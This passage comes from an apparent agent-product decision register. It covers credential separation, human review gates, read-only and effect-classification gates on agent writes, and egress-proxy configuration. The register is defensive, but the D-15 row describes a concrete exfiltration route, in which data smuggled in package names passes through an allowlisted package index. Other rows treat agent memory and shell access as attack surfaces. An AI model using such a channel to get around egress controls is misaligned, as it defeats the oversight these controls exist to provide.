| Execution | ~~ADK's graph execution, lifecycle, and session machinery~~ — **nothing. 2026-08-03, `plan.md` OD-15: this cell is empty for v1.** `max_llm_calls` was not even a backstop, because it reset on resume, and it is gone with the rest. Temporal/Restate *if* durability is needed (U-31) — **and OD-15 pushes at that question rather than away from it, because the surrounding build got larger** | The loop, context assembly, journaled mode, verifiers — plus four items measured and sized on 2026-08-02: the terminal-condition wrapper (2–3 days), the session-state budget channel and enforcement plugin (4–5 days), idempotency plus inner-loop journaling (1–1.5 weeks), and deterministic fan-out ordering (1–2 days, no longer contingent). Roughly 2.5–3.5 weeks total and realistically its upper half, now on the critical path. **Plus, newly moved from adopt to build by OD-02 and unsized: the coding-node executor itself** — tool preset, hook events, and permission interception — with the Claude Agent SDK kept as an opt-in second path (§2.6). **Unchanged by OD-09, and that is the single most important thing about this row: the largest item on the critical path did not shrink when the product shrank by ~10×, so it is now a much larger fraction of v1. A runtime needs loop safety more than a generator does. Added by OD-09: the per-call effect classifier at the interception point (§2.6, D-22)** |
| Provider abstraction | ~~—~~ **each vendor's own SDK, 2026-08-03 (OD-16); no `litellm`, which declares no license** | Two-tier; opaque continuation state as a first-class type. **Enlarged 2026-08-03 by OD-15: the driver over those SDKs is ours. That is where the opaque round-trip is now discharged — the adapter it replaces referenced xAI's field zero times (finding 003 result 7) — and it is why SC-010 becomes a test rather than an inheritance (U-03)** |
| Serving | ~~ADK `POST /run_sse`~~ — **nothing; the surface is ours and thin, 2026-08-03 (OD-15). It was the one limb of OD-01 with no measurement behind it** | ~~MCP export adapter (dual-era)~~ — **deferred to v2 2026-08-02 by `plan.md` OD-09: it exports a catalogue v1 does not emit (§2.8, D-06)** — ~~iframe tier~~ — **deferred 2026-08-02 with the hosted model by `plan.md` OD-08 (D-20). Struck as a v1 build item, not as an item: the tier keeps its §2.8 shape and its O-05 question, and the surviving v1 constraint is that nothing here may foreclose it. With both struck, the v1 build in this row is empty and the layer is pure adopt** — ~~**pure adopt**~~ **false as of 2026-08-03: OD-15 empties the adopt cell instead, so the layer is now a small build (the thin HTTP/SSE surface) plus the event stream feeding it, and it is the exact inverse of what this sentence said** |
| Credentials | Anthropic WIF where available | The broker, redaction seam, resolved-action approvals. **Unchanged by OD-08 and that is the point — self-hosting removes our *custody* of the secret, not the agent's *use* of it, so all three items are still built** (D-20, §2.9) |
| Observability | OpenTelemetry GenAI semconv | `harness_fingerprint` discipline |
| Knowledge/memory | — | Structural retrieval over the index; artifact store. **Narrowed 2026-08-02 by OD-09: "the index plus the derived boundary map *is* the knowledge layer" loses its second half, since the boundary map is v2 (§2.3). What remains — the index, its completeness check, and D-17 provenance — is enough, because a spec-aware runtime queries structure rather than boundaries. D-12's read-only memory is unaffected and, with one agent instead of several, easier to hold** |

---

## 3. The decision register

Three states. **DECIDED** — settled, do not relitigate without new evidence. **PENDING EXPERIMENT** — a named experiment resolves it, and building past it is speculation. **OPEN** — nobody has proposed a resolution mechanism yet; that absence is itself the action item.

> **Read the whole register against `plan.md` OD-09 (D-21), which re-scopes the product to roughly a tenth of what §2 describes.** Its effect on the three states is uneven and worth stating once here rather than repeating in twenty rows. **Decided** rows mostly survive; the exceptions are annotated in place, and two of them — **D-06** and **D-16** — are *wrong as written* rather than narrowed. **Pending experiment** is where the pivot lands hardest: **P-04, P-05, P-06 and P-07 are v2 questions now**, and none of them was ever answered, so they defer with an unmeasured question attached rather than with a result. **Open** rows are largely untouched, because they were open about deployment, liability and cadence rather than about scope. **One structural point that the row-by-row annotations can obscure: discovery is closed.** No further Phase 0 arm will run, so a "pending experiment" state now means *pending a v2 experiment nobody has scheduled*, which is closer to open than the label suggests.

### 3.1 Decided

| # | Decision | Position | Rationale | Source |
|---|---|---|---|---|
| D-01 | **Invocation boundary** | **Over the boundary.** Synthesized tools call the target via its existing external interface (HTTP/RPC), never in-process. Accept the live-target dependency. | In-process bypasses authorization, validation, rate limiting, and audit — the four things that make the boundary trustworthy. Owner decision; corpus agrees. | Owner; [07](./07-product-vision.md) Q8, [08](./08-auth-identity-and-secrets.md) §3.2 |
| D-02 | **Process** | **Spec Kit drives.** `specify-cli` 0.15.1, initialized for Cursor, constitution ratified v1.0.0 and **amended to v1.1.0 on 2026-08-02** (OD-03 — one requirement added to Principle I's Enforcement paragraph; MINOR, since it expands existing guidance rather than adding a principle). Cursor commands use hyphens (`/speckit-specify`). | Owner decision, already executed. **The amendment procedure was followed rather than shortcut: owner approval obtained as a NON-NEGOTIABLE principle requires, Sync Impact Report at the top of the file, and an empty migration plan because nothing has been emitted under 1.0.0.** | Owner; `.specify/memory/constitution.md` |
| D-03 | **Sequencing** | **Test before spec.** Agent class and v1 scope stay deferred pending experiments. | Owner: *"We are going to plan and test first to prove the best model, then we are going to build the spec."* Reinforced by [11](./11-validation-plan.md), whose entire structure assumes decisions follow measurements. | Owner; [11](./11-validation-plan.md) §8 |
| D-04 | **Credentials** | **BYO everything** — customer supplies LLM and infrastructure credentials. **Strengthened 2026-08-02 by OD-08 (D-20): under self-hosting the customer supplies them *and keeps them*, so the posture stops being a procurement concession and becomes the architecture.** What that does *not* license is dropping the broker or the `credential_ref` indirection — those exist to keep the secret out of the model's context, which is orthogonal to who holds it (D-07, §2.9). | Owner decision. Also the only posture compatible with [08](./08-auth-identity-and-secrets.md)'s two-plane model and with enterprise procurement. **And now the posture that discharges [08](./08-auth-identity-and-secrets.md) §6.1's concentrated-custody scenario by construction rather than by control.** | Owner; [08](./08-auth-identity-and-secrets.md); `plan.md` OD-08; D-20 |
| D-05 | **Harness** — ⚠️ **PARTIALLY REVERSED 2026-08-03 by `plan.md` OD-15; the seam survives, the substrate does not** | **⚠️ Read this cell's amendment first. 2026-08-03, `plan.md` OD-15: ADK is dropped from v1 entirely, so every clause below beginning *"we live inside ADK's…"* is superseded.** The seam this row draws — **execution versus safety, not framework versus library** — is *unchanged and vindicated*; what changed is that the execution side now has nothing in it. OD-01's four grounds were re-tested against a one-agent, one-loop v1 and three lost their subject or their evidence: **graph execution has no graph** (hosting one loop on the `Workflow` tier is *graph for a `for` loop*); **provider abstraction is measured non-compliant** — [finding 003](../specs/001-discovery-validation/findings/003-runtime-provider-agnosticism.md) result 7 counted the `LiteLlm` adapter referencing xAI's opaque reasoning field **zero times under every counting rule**, against a production spec requiring the round-trip (FR-037) for four providers (SC-010), *two artifacts written independently and never checked against each other until the plan phase*; and **serving rests on nothing measured**, which §2.8 said in its own words. **Lifecycle survived alone, and the owner held that one limb does not justify the dependency.** The cell's *"all four measured working"* is the specific clause to strike: only two of the four were measured at all. **What this costs, and it is not small**: nine capabilities move to build with no estimate anywhere (U-48), the resume primitive finding 006 measured working 5/5 does not transfer, and SC-010 becomes a test rather than an inheritance (U-03). **OD-02's half of this row is untouched in substance** — the Claude Agent SDK remains an opt-in second path — except that the default executor it is *"opt-in relative to"* is now ours rather than ADK's; the 40× input-context tax and the D-04 conflict are unchanged. **The reasoning that carried the day is this row's own:** partial safety machinery is more dangerous than absent, and that is why one working limb was not enough. **DECIDED 2026-08-02, no longer provisional. The seam is drawn at *execution versus safety*, not at *framework versus library*.** Both halves of this row were open owner decisions this morning and both are now settled in `plan.md` as OD-01 and OD-02. **OD-01 — we live inside ADK's graph execution, lifecycle, HTTP/SSE serving, and provider abstraction**, all four measured working, and **we rely on none of its four loop-safety primitives.** We build our own layer *wrapping* ADK — not forking it, not patching it — covering budget accounting across all four dimensions and surviving resume, a named terminal taxonomy, journaling and idempotency so a resumed step cannot duplicate a side effect, and deterministic ordering under fan-out. The owner's reasoning is that **ADK's safety machinery is not absent, it is partial, and partial is the more dangerous condition because it invites reliance** — the budget that resets on resume being the clearest case, since it looks like a ceiling and is not one. Rewriting what works would be waste; trusting what half-works would be a runaway-cost hazard. **OD-02 — the coding-node executor is built on ADK, with the Claude Agent SDK retained as an opt-in fast path for Anthropic customers.** The SDK is Anthropic-only for any genuinely different model family, so a customer bringing only an OpenAI credential would have no working coding nodes at all; that is a direct conflict with D-04 (bring-your-own-credentials) as a hard requirement rather than a performance trade-off, and the SDK's remaining advantages — enforced budget and the tool preset — shrink under OD-01 because we are building budget enforcement regardless. The measured **40× input-context tax** (1,336 tokens for ADK against 53,859 for the SDK on an identical task and model) becomes a known and accepted cost on the opt-in path rather than a default. **Cost: the 2.5–3.5 weeks from finding 006 stands** (§2.6), with one internal shift — fan-out ordering moves from contingent to committed, which spends the range's own slack and puts the realistic figure in its upper half. | The dependency test is *does it see prompts and tokens*. `function2agent` is a harness generator; adopting a harness adopts a competitor's opinions about the core product. OD-01 applies that test one layer finer than the row originally did: graph execution, lifecycle, serving, and the provider bridge do not see prompts or tokens, so they are adoptable; budgets and terminal conditions decide *when the model stops spending*, which is the core product, so they are not. On the loop-safety half: the gate was pre-registered before the probe ran, and the probe decided every verdict programmatically — by node-execution ledgers, `fsync`ed side-effect logs surviving real `SIGKILL`s to the probe's own PID, and exception types — with no verdict read off model output. | `plan.md` OD-01, OD-02; [02](./02-agent-harnesses.md) §2, §6; [06](./06-examples-inventory.md) §3; [13](./13-claude-managed-agents.md) §7; [finding 003](../specs/001-discovery-validation/findings/003-runtime-provider-agnosticism.md); [finding 006](../specs/001-discovery-validation/findings/006-graph-loop-primitives.md) |
| D-06 | **MCP role** — ⚠️ **AMENDED 2026-08-02 by `plan.md` OD-09: the position survives, its decisive argument does not, and the two halves now have different dates** | ~~**Export adapter and headline artifact, not internal calling convention.** Generated servers dual-era for ~1 year.~~ **Split. Negative half — *not the internal calling convention* — stands, for v1 and v2 alike. Positive half — *export adapter and headline artifact* — is DEFERRED TO v2 with synthesis, because the artifact it exports is a synthesized tool catalogue and v1 emits none.** Dual-era remains the v2 requirement. | ~~MCP schemas cannot carry `read_only`/`egress`, so internal adoption deletes the compile-time trifecta check.~~ **This sentence is *wrong* under OD-09, not narrowed, and it is the load-bearing one — so the row is amended rather than annotated.** It is a claim about a catalogue of labelled synthesized tools; v1 emits no such catalogue, so there is no compile-time trifecta check for MCP's schema to delete (C-16). **The position survives on the three reasons that were always alongside it** — four breaking revisions in ~20 months, modern-server + legacy-client failing per the spec's own compatibility matrix, and the general objection to an external wire protocol as an internal ABI — **plus one OD-09 supplies that is stronger than the reason it replaces:** v1 resolves an effect tier **per call at a runtime interception point** (D-22), and MCP's tool schema has no slot for a per-call tier either, so adopting it internally would put the wire format between the classifier and the enforcer. **Recorded as *wrong* rather than *deferred* because a reader checking the rule's justification would otherwise verify a claim about an artifact that does not exist and conclude the rule is unfounded.** | [09](./09-mcp-as-tool-surface.md) §1, §3; [01](./01-agent-anatomy.md) §5.6; `plan.md` OD-09; D-22; C-16 |
| D-07 | **Credential planes** | **Two, physically separate.** No secret in context; `credential_ref` handles resolved by a broker outside the sandbox; redaction at the tool-response serialization seam; resource-plane credentials not network-reachable from an agent shell. | Model plane leaks money (reversible); resource plane leaks the business (often not). Agents have shell by design, so env vars are the wrong default. | [08](./08-auth-identity-and-secrets.md) §1–2, §5 |
| D-08 | **Iframe tier** | **Separate, weaker tier: no shell, no write tools, no cross-session memory.** **Deferred out of v1 on 2026-08-02 by `plan.md` OD-08, together with the hosted model (D-20) — the tier's *shape* is unchanged and its *timing* is.** The row is not struck, because the decision still binds whenever the tier is built, and because D-20's first discipline makes a live v1 constraint of it: no serving or credential decision may foreclose a weaker anonymous tier later. | In an anonymous session there is no subject token, therefore no authority to delegate and nothing for RFC 8693 to scope down to. Capability removal is the only real mitigation. **The deferral's own reasoning, which is stronger than the schedule argument:** OD-07 requires the v1 agent to hold a general fallback path, i.e. shell, so an anonymous browser surface over it would assemble the trifecta in full rather than in part (C-15, §7.6). | [08](./08-auth-identity-and-secrets.md) §7; `plan.md` OD-08; D-20; O-05 |
| D-09 | **Verification** | **Contract-derived only.** Types, postconditions, assertions, exception classes, existing tests. **No LLM judge in the primary success path**, in the product or in the evaluation. **Refined 2026-08-02: the three contract components are three separately gated capabilities, not one.** This row previously treated "contract-derived" as a single capability that either works or does not. The first measurement of it says otherwise, and the three components sit at very different maturities, so they should be shipped and gated independently rather than behind one flag. | Self-critique without external feedback degrades reasoning; LLM-as-judge is anti-correlated with truth on false-success detection (AUROC 0.18–0.30) and its bias does not average out. **Now measured rather than assumed** ([finding 007](../specs/001-discovery-validation/findings/007-contract-extraction.md), zero model spend). Against a FastAPI application's own published schema across five constructor configurations: **parameters are recovered exactly — 207 derived, 207 expected, zero mismatches** on name, location, required flag, and type, across 69 endpoints; **return types show 53 agreements and zero disagreements**, with 16 endpoints declaring no response shape anywhere on either side; **exceptions are the weak component at 53.6% coverage from the handler body and 71.0% within one call hop, and are the only component with no ground truth to check against** — every exception number is recoverability, not accuracy. The gate reads both ways and both must be quoted: **literal (the extractor produced both components) is 60/69 = 0.8696 and clears the pre-registered ≥ 0.80; validated (it produced both and both agree with the published schema) is 53/69 = 0.7681 and misses.** The literal reading was pre-registered, so the gate clears — on a thin margin, and never to be quoted without the second row. So: an argument-shape verifier is buildable today on this class of target with high confidence, a response-shape verifier for roughly three quarters of endpoints, and the *failure taxonomy* the enforcement clause requires is the weakest of the three and needs an explicit confidence level wherever it is emitted (U-33). Scope caveat in D-14 and U-32: this is one framework whose design premise is that the signature *is* the schema. | [04](./04-self-improving-agents.md) §2–3; [11](./11-validation-plan.md) §2; [finding 007](../specs/001-discovery-validation/findings/007-contract-extraction.md) |
| D-10 | **Topology: represent vs. execute** | **Represent always; execute conditionally.** Trigger = **who holds the plan** (measurable). "Execute" means deterministic journaled imperative code, not a node/edge graph. Plus static rejection of unconditional cycles. | [10](./10-topology-in-practice.md) refines [03](./03-graph-and-loop-architecture.md)/[07](./07-product-vision.md): the mandatory-step trigger is a judgment call; plan-ownership is observable. Cycle rejection is the only guarantee a graph adds over loop-plus-budget, and it is the exact bug a call-graph-derived generator emits. | [10](./10-topology-in-practice.md) §12, §4; [03](./03-graph-and-loop-architecture.md) §5 |
| D-11 | **Decomposition axis** — **RESOLVED BY SCOPE 2026-08-02 (`plan.md` OD-09), not by evidence** | **Bounded contexts, or a single agent. Never layers.** **OD-09 takes the second branch for v1 by decision: decomposition-into-agents is v2, so v1 is a single agent and this row's choice is not exercised. Note carefully what did *not* happen — the axis question was never measured. P-06 (A3 vs. A4) was to decide it and Phase 3 never ran, so "bounded contexts beat layers" remains the corpus's argument rather than the corpus's finding, and it must be re-opened rather than assumed when v2 decomposes. The prohibition on layers is the part to carry forward: it is an argument from token cost and outcome ownership that does not depend on anything the pivot changed.** | Every request crosses UI/API/data, so layered agents own no outcome and only call each other — at ~15× tokens ([Anthropic](https://www.anthropic.com/engineering/multi-agent-research-system)). Retained as arm A3 solely as a falsifiable control. | [07](./07-product-vision.md) §3.1; [01](./01-agent-anatomy.md) §7 |
| D-12 | **Memory writes in v1** | **No agent writes to durable memory.** | Memory is a documented attack surface with experience-to-procedure as a write channel; a self-modifying instruction store collides head-on with the mandatory review gate. | [04](./04-self-improving-agents.md) §9; [07](./07-product-vision.md) Q5 |
| D-13 | **Managed Agents (CMA)** | **Validation spike only, with a written stop condition. Never a hard dependency in a generated artifact.** | Covers 4/13 infrastructure needs fully — and what it covers is the executor slot the Claude SDK already fills. Disqualifying for production: a customer's Bedrock or Vertex account cannot run sessions, excluding exactly the enterprise segment with internal endpoints worth wrapping; and a managed cloud sandbox cannot reach internal endpoints. | [13](./13-claude-managed-agents.md) §3, §5–7 |
| D-14 | **Analysis foundation** | **Extend `codegraph`, with confidence — verified 2026-08-02.** Adopt the extraction core, read its SQLite directly rather than its TypeScript API, and own a named gap-fill on top. Moved from "trending toward extend" (inference from finding 001) to "extend, with confidence" (measured against a machine-generated key). | **Measured, not inferred.** Against a FastAPI application's own `app.routes` table across five constructor configurations (77 distinct `(method, path)` pairs), route recall is **0.8961** (69 of 77) at **precision 1.0000** inside the application source tree, F1 0.9452; symbol recall against Python's `ast` is **0.9987** (16,655 of 16,677) at precision 1.0000; and route-to-handler linkage matches the framework's own `route.endpoint.__name__` **69/69**. **Gate adjudicated honestly: 0.8961 falls in the pre-registered 0.75–0.90 band, not the ≥0.90 band**, so the consequence is *extend with a named, sized gap-fill*, not adopt outright. The gap-fill is four causes over eight misses — one regex token (`websocket`), one extraction form (`app.mount`), four framework-generated docs routes shippable as a per-framework constant, and two routes registered at runtime under a computed prefix that **no static analyzer can recover**. The 100% figure on source-declared routes (69/69) is real and important but is **not the headline**, because the product must operate applications as *deployed*. Three further build items: a direct route-to-handler edge per framework (§2.2), `.gitignore`/tracked-file reconciliation (U-28), and field-level metadata validity checks (U-27). Reachability against the deployed configuration is a separate, unresolved problem (U-26). **Sharpened 2026-08-02: the gap-fill's largest item is a type resolver, not a better parser** ([finding 007](../specs/001-discovery-validation/findings/007-contract-extraction.md) §6). The index's dedicated `return_type` column is empty across **all 48,154 Python nodes**, reproducing exactly the 0-of-63,783 result finding 001 reported on TypeScript — but that is a cosmetic defect, because the type lives in the `signature` string and parses cleanly for **54 of 65 Python route handlers (0.8308)** and **664 of 742 TypeScript callables (0.8949)**. The real gap is one layer up: of the return types that *do* parse, only **19 of 54 (0.3519)** on Python and **252 of 683 (0.3690)** on TypeScript resolve to a type the index declares, and **140 of 683 TypeScript return types name a type the index does not contain at all**, which is itself a resolution bug worth understanding before building on it. `Promise<ArticleDto>` gives a name, not a shape. Python reached 100% on parameters only because the harness walks Pydantic models through inheritance with `ast`, capability that does not exist in the index; **the equivalent walk over the 4,395 declared TypeScript interfaces is unwritten and unmeasured.** One scoping figure worth carrying: across every callable rather than route handlers alone, both components parse for only **5,800 of 21,204 (27.4%)** on Python and **10,179 of 22,104 (46.1%)** on TypeScript — route handlers are the best-typed code in these repositories by a wide margin, and that must not be generalized to arbitrary promoted functions. | [finding 004](../specs/001-discovery-validation/findings/004-recall-against-authoritative-key.md); [finding 001](../specs/001-discovery-validation/findings/001-structure-recovery.md); [finding 007](../specs/001-discovery-validation/findings/007-contract-extraction.md) §6; [06](./06-examples-inventory.md) §2 |
| D-15 | **Human review gate** — **RE-POINTED 2026-08-02 by `plan.md` OD-09: mandatory still, over a different set of objects. NARROWED again 2026-08-03 by `plan.md` OD-10: the runtime leg goes dormant and the configuration leg becomes the whole gate** | ~~**Mandatory in v1** for tool inventory, effects, descriptions, and credential bindings.~~ **Three of those four objects do not exist in v1** — there is no tool inventory, no derived effect labels and no generated tool descriptions to review. **Mandatory in v1 for: derived contracts and their provenance/`validated` markers (D-17), the reachability annotation and the deployment identity it claims (D-18), credential bindings (unchanged), and — new — the per-call gate decisions at the D-22 interception point.** Instrument it to measure whether risk-tiered auto-approval is earnable. **The instrumentation target moves with the objects and gets *better* rather than worse: the original measured how often a reviewer changes a low-risk *label*, at generation time and in bulk; the v1 version measures how often a reviewer overrides an `UNKNOWN` or a verb-derived tier on a real call, which is a live signal on the actual decision instead of a proxy for it.** | Risk tiering is the likely end state but requires a trustworthy effect classifier, which is currently unvalidated. Measure how often reviewers *change* a low-risk classification. **Under OD-09 the classifier is not merely unvalidated, it is crude by construction (D-22), so the gate is load-bearing rather than transitional and the auto-approval question is further away than this row assumed.** **AMENDMENT, 2026-08-03 — `plan.md` OD-10, and it removes the object this row had just gained.** ~~*the per-call gate decisions at the D-22 interception point*~~ — **under read-only there are no per-call decisions to review**, because nothing escalates: the gate allows a resolved read and denies everything else. **Three objects stand unchanged** (derived contracts and their provenance, the reachability annotation and its deployment identity, credential bindings) **and one is added, which is now the most important row in the set: the deny list and the safe-method rule set that define *resolved read-only*** — an unvalidated rule set (U-43) is the only thing between the agent and a side-effecting read, so it is reviewed as configuration rather than trusted as a mechanism. **Two consequences, one good and one accepted.** The gate stops producing routine runtime prompts, which **removes the disable-by-noise failure mode entirely** rather than mitigating it — §2.9's central worry does not arise in v1. And a legitimately blocked operation has **no human override**, which is a real usability cost taken deliberately; the instrumentation target above narrows with it, from *how often a reviewer overrides a verb-derived tier on a real call* back to *how often a reviewer changes the rule set* — **a weaker signal than the OD-09 version promised, and worth saying so rather than letting the improvement claim stand unamended.** **WIDENED 2026-08-03 (later the same day) by `plan.md` OD-12, and the configuration leg is now the whole gate in a second sense — it holds the network too.** A fifth object joins the four above: **the mandatory egress proxy's configuration** — its allowlist entries, the pinned target address, the method rules, the side-effecting-read deny list as the proxy applies it, and **every widening of any of them**. Two things make this the heaviest object in the set rather than one more of them. It is a **deployment** property under OD-08 — we specify it and the customer instantiates it — so unlike the other four it can be correct in our artifact and wrong in the install. And the predictable widening is not adversarial but ordinary: an operator allowlisting a package index so `pip install` works has restored a complete exfiltration channel, because the requested package *name* carries the payload. **So the gate's instrumentation target widens with the object**, from *how often a reviewer changes the rule set* to *how often a deployment's network policy differs from the one we specified* — which is a better signal than the one narrowed away above, and it is the first object in this set that is checkable without a model at all. | [07](./07-product-vision.md) Q6; [08](./08-auth-identity-and-secrets.md) §3.4, §6.1; `plan.md` OD-09, OD-10, **OD-12**; D-17, D-18, D-22; U-43; **C-17**; §2.6; §2.9 |
| D-16 | **Effect-classification gate on writes** — ⚠️ **WRONG AS WRITTEN after `plan.md` OD-09, 2026-08-02. Restated below, not struck: the intent is right and the mechanism it names no longer exists. ⏸ DORMANT for v1 as of 2026-08-03 (`plan.md` OD-10) — there are no v1 writes for it to gate; it becomes the *exit condition* from read-only, and its number does not survive the move automatically. See the second amendment at the end of this cell** | ~~**No write tools at any scope until read-only-label precision ≥ 0.98.**~~ **The gate conditions v1 writes on the measured precision of a derived `read_only` label, and under OD-09 no such label is derived — effect classification defers with synthesis, so the quantity is not merely unmeasured but uncomputable. Read literally the gate can never open and v1 can never write, which is not what OD-09 decided; read charitably as vacuously satisfied it permits unrestricted writes, which is worse. Both readings are wrong, which is why this is *wrong* rather than *deferred*.** **RESTATED for v1:** *no write reaches the target except through an interception point that resolves an effect tier for that specific call and can block it; a call whose tier cannot be resolved is `UNKNOWN` and `UNKNOWN` gates to a human who is shown the resolved request.* **RETAINED for v2 verbatim**: when synthesis returns and tools carry derived labels, the 0.98 precision gate is the right gate and the pre-registration stands. | Pre-committed kill criterion. A wrong `read_only` label on a destructive operation is the failure mode that ends the company. **That reasoning is untouched by OD-09 — the failure mode does not care whether the label was derived statically or resolved at call time, and v1's agent can issue `DELETE` against real data with no label anywhere.** What changes is where the defence lives. The v1 tier source is the request's own verb checked against the served-operation spec, which the reachability fetch already pays for (D-18): `GET`/`HEAD`/`OPTIONS` → read-only, `POST`/`PUT`/`PATCH` → reversible-write, `DELETE` → irreversible, anything unmatched or opaque → `UNKNOWN`. **This is a crude proxy and must be described as one** — `POST /purge` is irreversible and the verb says otherwise — so it is a floor on caution and never a licence, and no precision figure is claimed for it because none has been measured. **The honest comparison: the deferred static label was to be *validated to 0.98 before* any write shipped; the v1 tier is *unvalidated and resolved during* execution, with a human gate as the compensating control. That is weaker, and it is the price of the pivot rather than a free substitution.** See **D-22**, which is the affirmative decision this row now points at, and **C-16**. **SECOND AMENDMENT, 2026-08-03 — `plan.md` OD-10, and it changes this row's status rather than its wording.** ~~*a call whose tier cannot be resolved is `UNKNOWN` and `UNKNOWN` gates to a human who is shown the resolved request*~~ — **there is no v1 write to gate and no runtime escalation: `UNKNOWN` denies.** The restatement above was the compensating control for permitting writes on an unvalidated tier, and OD-10 removes the thing being compensated for. **This row is *dormant*, which is a third thing from *wrong* and from *deferred* and the distinction is load-bearing here.** Not *wrong*: its intent — do not ship writes on an unmeasured classifier — is exactly what OD-10 enforces, and OD-10 is this row's first branch firing, not its contradiction. Not merely *deferred*: its **subject changed**, from a static per-tool label to a per-call tier, so it cannot be picked up unaltered when writes return. **What survives is its form: writes ship when the effect gate's read-only precision is measured against a labelled corpus of real endpoints and clears a pre-registered threshold.** **What does not survive is its number.** 0.98 was chosen for a static label over a curated catalogue; a per-call gate over a general shell has a different base rate and a different blast radius, so the threshold must be **re-derived when that measurement is designed** rather than copied across. Recording it as "0.98, still" would be the inherited-number failure this corpus catches elsewhere, and constitution v1.1.0 Principle I is the reason it may not be. **The v2 retention above is unchanged and unaffected**: when synthesis returns and tools carry derived labels, the original 0.98 pre-registration stands for *that* classifier. | [11](./11-validation-plan.md) §7 Phase 5, §8; `plan.md` OD-09, OD-10; `.specify/memory/constitution.md` Principle IV; D-22; C-16; U-43 |
| D-17 | **Provenance and confidence on every derived artifact** — **NEW 2026-08-02, extended the same day with a fourth requirement, and ENFORCEABLE from the same day** | **Enforceable as of 2026-08-02: constitution v1.1.0 carries the requirement in Principle I's Enforcement paragraph (`plan.md` OD-03, applied), so this row is no longer decided-but-unenforceable and its four requirements are merge-blocking rather than advisory. See the dependency note under this table.** **Every field the analysis pipeline derives carries, as data, how it was derived and how far it was validated; and no derived field is emitted as fact without a check against a description of the interface produced outside the derivation.** Concretely, **four** requirements — the fourth added by [finding 010](../specs/001-discovery-validation/findings/010-deployment-reachability.md). (1) **Provenance**: each field records its derivation rule, the source symbol and file it came from, and the analyzer version — a field derived by walking a base class three files away is not the same kind of claim as a field read off the handler signature, and the artifact must say which it is. (2) **Independent validation where one exists**: a derived contract MUST be checked against an OpenAPI document, a schema file, a client SDK, or a recorded request — anything not produced by the same derivation — and the check result recorded. (3) **Provisional marking where none exists**: a field that could not be validated is emitted marked provisional, and a consumer that requires a validated contract fails closed rather than proceeding on it. (4) **Deployment identity**: every emitted catalogue records **which deployment configuration it describes**, as data — not a footnote in a README, a field alongside the provenance and confidence the first three requirements demand. The same source tree yields **22 or 67** served operations depending on configuration, so a catalogue generated against `api_server` and applied to a `web` deployment silently omits **43** real operations, and the reverse silently includes 43 that 404. **Neither is detectable from the catalogue as currently shaped**, which is the same argument the first three requirements rest on, arriving one level up: the wrong artifact is not a wrong field but a correct field set describing the wrong deployment. **The corollary is a reading of constitution Principle IV's fail-loudly requirement**: silent overconfidence is a failure mode it must cover, not only crashes and missing configuration. A pipeline that emits a wrong field silently has failed quietly, which is precisely what that principle exists to forbid. | **Two independent measurements, in two consecutive experiments, produced the same failure shape by different mechanisms, and that is what promotes this from an observation to a rule.** [finding 004](../specs/001-discovery-validation/findings/004-recall-against-authoritative-key.md): the `docstring` field is populated with text that is not the docstring — the extractor reads *above* the `def`, which is the JavaScript and Java convention, so 354 of 355 populated values are section banners and stray comments (U-27). [finding 007](../specs/001-discovery-validation/findings/007-contract-extraction.md) §4: disabling one derivation rule — following a Pydantic `alias_generator` declared on a project-local base class three files away — leaves **15 of 69 endpoints (21.7%)** with a contract carrying the right number of fields, in the right locations, with the right types and required flags, and **every field name wrong in the same systematic way** (`connector_name` for `connectorName`). A tool built from one would fail every call it ever made, returning a 422 an operator would most naturally read as a bug in the caller. **The asymmetry is the whole argument: a missing field is safe because a consumer can see it is missing; a plausible wrong field is not, because nothing downstream can tell.** Neither instance was detectable from the artifact alone, and in both cases the only thing that caught it was a comparison against something the pipeline did not produce. The general hazard is broader than either mechanism — `serialize_by_alias`, Marshmallow `data_key`, Jackson `@JsonProperty`, and `class-transformer` `@Expose` are the same trap in other ecosystems, and **a type in the source is not the interface**. **Cheap now, expensive later:** no emission code exists yet, so adding a provenance field costs a schema decision; retrofitting one after artifacts are in customers' hands costs a migration. **Extended 2026-08-02 by a third measurement, which stresses requirement (2) rather than illustrating it again** ([finding 011](../specs/001-discovery-validation/findings/011-reachability-without-schema.md) §6). Requirement (2) says a derived contract MUST be checked against an independent description "where one exists." E15 measured what happens when one does not, and the answer is worse than a lower score: **every derived component survives untouched — 60/69 endpoints, 207 parameters, 53 return types, all identical — while the validated reading goes from 53/69 (0.7681) to 0/69, uncomputable.** All 69 contracts silently move from *agrees with the framework's own schema* to *unverified*, and **no quantity the pipeline produces changes at all.** That is requirement (3) doing real work rather than decorative work: a schema-free target must emit a per-contract `validated: false`, or the artifact asserts agreement with an authority it never consulted. **And the same asymmetry now has an instance in our own measurements rather than in an emitted artifact** — E14's recall figure for the reachability probe moved from 0.9655 to 1.0000 on an undeclared harness constant while the underlying defect was unchanged, so a *safety* defect was being reported as an *accuracy* metric. That is D-17's shape one level up, it is not governed by D-17 because D-17 governs artifacts rather than experiments, and it is recorded in **C-05**, which already prescribes the remedy. **A third direction the same experiment opened, and it is the one worth watching**: U-40 found a *safety* property held by one component and silently removable by an unrelated accuracy improvement in another, and the only available mitigation is requirement (1) applied to a decision rather than to a field — the extractor must record whether a method set was **recovered** or **inferred**, and the probe must refuse an inferred one. **That is twice now that D-17's shape has been the answer to a question that was not about metadata**, which is an argument for reading requirements (1) and (3) as a general discipline about derived claims rather than as a catalogue schema. | [finding 004](../specs/001-discovery-validation/findings/004-recall-against-authoritative-key.md) §6; [finding 007](../specs/001-discovery-validation/findings/007-contract-extraction.md) §4, §5; [finding 010](../specs/001-discovery-validation/findings/010-deployment-reachability.md) §What this means for the product; [finding 011](../specs/001-discovery-validation/findings/011-reachability-without-schema.md) §5, §6; U-27; U-32; U-40; C-05; `.specify/memory/constitution.md` Principles I and IV |
| D-18 | **Reachability is resolved by probing the deployment, per configuration, with a precondition on every emitted tool** — **NEW 2026-08-02, AMENDED THE SAME DAY BY E15** | **AMENDMENT, 2026-08-02 — D-18 stands, and its justification does not. Read this before the four parts below.** E15 tested the mechanism on a target class E14 could not contain, and the word this row rests on — *exact* — turns out to have been a property of `adk-python` rather than of probing ([finding 011](../specs/001-discovery-validation/findings/011-reachability-without-schema.md)). That target has no path serving some HTTP methods and withholding others, so its operation-granularity and path-granularity scores are the same number by construction; add one ordinary route that gates `POST` behind a configuration flag and schema-free precision falls to **0.8000**. **The decision stands on three grounds that survived the test and one that did not.** *Survived:* path-granularity precision is **1.0000 on all seven E15 targets** for E14's probe design, with **every false positive anywhere a method-level error and no path-level error at all**; removing the schema four different ways left the FastAPI numbers **at 1.0000/1.0000, identical to the schema-present control**, while the schema fetch fell to 0.0000 recall, so the mechanism is more robust than E14 could show; and configuration 